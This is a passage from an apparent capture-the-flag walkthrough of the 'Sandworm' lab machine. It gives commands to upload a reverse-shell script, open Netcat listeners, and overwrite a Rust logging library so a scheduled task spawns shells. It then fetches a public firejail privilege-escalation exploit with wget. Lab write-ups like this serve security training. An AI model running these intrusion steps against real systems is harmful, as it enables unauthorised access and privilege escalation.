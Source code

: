 Upload `atlas_rshell.sh` to Sandworm.
```
scp atlas_rshell.sh silentobserver@10.10.11.218:/tmp/xa/atlas_rshell.sh
```

As `silentobserver`, set permissions on the script.
```
chmod +x /tmp/xa/atlas_rshell.sh
```

A copy of `crates-logger-lib-modified.rs` running the shell script is included in the repo. 

<img src="images/root/crates_lib_rshell_second_attempt.png" alt="tipnet reverse shell script" width="50%" height="50%"> <br>


Start a Netcat listener and upload the code to Sandworm.
```
nc -nlvp 5678
nc -nlvp 5679
scp crates-logger-lib-modified.rs silentobserver@10.10.11.218:/opt/crates/logger/src/lib.rs
```

After 2 minutes (or a manual run of tipnet), both shells should appear.
> There may be a slight delay for the second shell.

<img src="images/root/atlas_unrestricted_shell.png" alt="atlas unrestricted shell" width="50%" height="50%"> <br>

As `atlas`, we can see more binaries and the owner is no longer `nobody:nogroup`.

<img src="images/root/atlas_verify_unrestricted_shell.png" alt="verify atlas unrestricted shell" width="35%" height="35%"> <br>

Download and transfer the firejail exploit.
```
wget https://seclists.org/oss-sec/2022/q2/att-188/firejoin_py.bin -O firejail-expl.py
scp firejail-expl.py silentobserver@10.10.11.218:/tmp/xa/firejail-expl.py
```
